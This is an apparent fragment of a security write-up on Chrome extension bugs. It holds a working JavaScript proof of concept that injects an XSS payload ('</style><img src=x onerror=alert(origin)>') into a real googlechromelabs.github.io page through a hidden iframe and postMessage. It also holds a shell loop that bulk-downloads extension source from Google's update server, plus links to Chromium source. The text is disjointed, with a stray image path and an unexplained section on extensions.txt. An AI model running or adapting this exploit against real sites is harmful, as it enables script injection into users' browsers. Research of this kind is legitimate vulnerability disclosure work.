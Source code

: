 ```js
f = document.createElement("iframe");
f.hidden = true;
document.body.appendChild(f);

function tryXSS() {
  loop = setInterval(() => {
    try {
      f.contentWindow[1].location = "about:blank";
      f.contentWindow[1].eval(
        "parent.postMessage({duration: 1, height: '</style><img src=x onerror=alert(origin)>', width: 1}, '*')",
      );
      clearInterval(loop);
      f.contentWindow[1].location = "https://googlechromelabs.github.io";
    } catch {}
  }, 100);

  f.src = "https://googlechromelabs.github.io/layout-shift-terminator/?autorun";
}

tryXSS();
setInterval(tryXSS, 1000);
```

# How to download the latest extension source code for bulk searches.

```sh
rm -rf extensions/*

sudo apt install unzip
npm -g install prettier

# Downloads every extension ID in extensions.txt
for extensionID in $(cat extensions.txt)
do
    wget "https://clients2.google.com/service/update2/crx?response=redirect&os=cros&arch=x86-64&os_arch=x86-64&nacl_arch=x86-64&prod=chromiumcrx&prodchannel=unknown&prodversion=120.0.0.0&acceptformat=crx2,crx3&x=id%3D$extensionID%26uc" -O $extensionID.zip
    unzip $extensionID.zip -d extensions/$extensionID
    rm $extensionID.zip
    chmod -R 777 extensions/$extensionID
    prettier --write extensions/$extensionID
done
```

# What's extensions.txt?

This may Include extensions that are not considered official google apps.


[^0-0]: <https://chrome.google.com/webstore/detail/perfetto-ui/lfmkphfpdbjijhpomgecfikhfohaoine>
[^1-0]: <https://source.chromium.org/chromium/chromium/src/+/main:chrome/browser/extensions/api/debugger/debugger_api.cc;drc=3ecbe8e3eacb4ac62561e9e786e40e7e60eefd44;l=154>
[^0-1]: <https://chrome.google.com/webstore/detail/screen-reader/kgejglhpjiefppelpmljglcjbhoiplfn>
[^1-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/>
[^2-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=71;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^3-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_implementation.js;l=312;drc=a7bb5589468949d3c12d3e067621eb51252ee031>
[^4-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/api_util.js;l=78;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^5-1]: <https://source.chromium.org/chromium/chromium/src/+/main:ui/accessibility/extensions/chromevoxclassic/chromevox/injected/pdf_processor.js;l=138;drc=3e1a26c44c024d97dc9a4c09bbc6a2365398ca2c>
[^0-2]: <https://chrome.google.com/webstore/detail/form-troubleshooter/lpjhcgjbicfdoijennopbjooigfipfjh>
[^1-2]: <https://github.com/GoogleChromeLabs/form-troubleshooter>
[^0-3]: <https://chrome.google.com/webstore/detail/secure-shell/iodihamcpbpeioajjeobimgagajmlibd>
[^1-3]: <https://chrome.google.com/webstore/detail/deprecated-secure-shell-a/pnhechapfaindjhompbnflcldabbghjo>